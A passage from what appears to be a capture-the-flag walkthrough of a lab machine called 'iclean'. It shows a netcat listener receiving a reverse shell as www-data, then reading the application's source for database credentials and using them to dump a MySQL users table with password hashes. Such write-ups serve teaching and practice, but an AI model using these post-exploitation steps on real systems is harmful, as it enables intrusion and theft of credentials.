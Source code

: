 > **Note**: Piping to `sh` didn't work?...
{: .prompt-info }

### Reverse Shell (www-data)

```bash
└─$ listen
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.12:40186.
bash: cannot set terminal process group (1244): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ cat app.py
...
import pymysql
...
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
...
www-data@iclean:/opt/app$ ls /home
consuela
www-data@iclean:/opt/app$ mysql -u iclean -p'pxCsmnGLckUb' -e 'SHOW DATABASES;'
Database
capiclean
information_schema
performance_schema
www-data@iclean:/opt/app$ mysql -u iclean -p'pxCsmnGLckUb' capiclean -e 'SHOW TABLES;'
Tables_in_capiclean
quote_requests
services
users
www-data@iclean:/opt/app$ mysql -u iclean -p'pxCsmnGLckUb' capiclean -e 'SELECT * FROM users;'
id      username        password        role_id
1       admin   2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51        21232f297a57a5a743894a0e4a801fc3
2       consuela        0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa        ee11cbb19052e40b07aac0ca060c23ee
```
